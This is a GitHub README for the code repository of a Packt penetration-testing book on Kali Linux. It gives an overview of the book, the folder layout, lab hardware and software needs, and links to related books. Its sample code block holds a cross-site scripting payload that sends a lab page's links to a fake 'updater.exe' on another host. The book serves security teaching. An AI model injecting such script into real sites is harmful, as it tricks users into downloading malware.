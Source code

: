 


# Mastering Kali Linux for Web Penetration Testing
This is the code repository for [Mastering Kali Linux for Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-web-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781784395070), published by [Packt](https://www.packtpub.com/?utm_source=github). It contains all the supporting project files necessary to work through the book from start to finish.
## About the Book
You will start by delving into some common web application architectures in use, both in private and public cloud instances. You will also learn about the most common frameworks for testing, such as OWASP OGT version 4, and how to use them to guide your efforts. In the next section, you will be introduced to web pentesting with core tools and you will also see how to make web applications more secure through rigorous penetration tests using advanced features in open source tools. The book will then show you how to better hone your web pentesting skills in safe environments that can ensure low-risk experimentation with the powerful tools and features in Kali Linux that go beyond a typical script-kiddie approach. After establishing how to test these powerful tools safely, you will understand how to better identify vulnerabilities, position and deploy exploits, compromise authentication and authorization, and test the resilience and exposure applications possess.


## Instructions and Navigation
All of the code is organized into folders. Each folder starts with a number followed by the application name. For example, Chapter02.

Chapter 01, 02, 04, 05, 09, 11, and 12 doesn't contain code files.

The code will look like the following:
```
http://172.16.30.129/mutillidae/index.php?page=user-info.php
&username=
Infiltrating Sessions via Cross-Site Scripting
[ 20 ]
<script>window.onload = function() {var
AllLinks=document.getElementsByTagName("a"); AllLinks[0].href =
"http://172.16.30.128/updater.exe"; }</script>
```

Hardware list:
The exercises performed in this book and the tools used can be deployed on any modern
Windows, Linux, or Mac OS machine capable of running a suitable virtualization platform
and a more recent version of the OS. Suggested minimum requirements should allow for at
least the following resources to be available to your virtual platforms:
4 virtual CPUs
4-8 GB of RAM
802.3 Gigabit Ethernet, shared with host machine
802.11a/g/n/ac WiFi link, shared with host machine
Software list:
Desktop/Laptop Core OS and Hypervisor:
Virtualization should be provided by one of Kali Linux's supported hypervisors, namely
one of the following options. The operating system and hardware will need to support the
minimum requirements, with an eye toward dedicating the previous hardware
recommendations to the guest virtual machines.

## Related Products
* [Mastering Kali Linux for Advanced Penetration Testing - Second Edition](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing-second-edition?utm_source=github&utm_medium=repository&utm_campaign=9781787120235)

* [Mastering Kali Linux for Advanced Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781782163121)

* [Kali Linux Web Penetration Testing Cookbook](https://www.packtpub.com/networking-and-servers/kali-linux-web-penetration-testing-cookbook?utm_source=github&utm_medium=repository&utm_campaign=9781784392918)

### Download a free PDF

 <i>If you have already purchased a print or Kindle version of this book, you can get a DRM-free PDF version at no cost.<br>Simply click on the link to claim your free PDF.</i>
<p align="center"> <a href="https://packt.link/free-ebook/9781784395070">https://packt.link/free-ebook/9781784395070 </a> </p>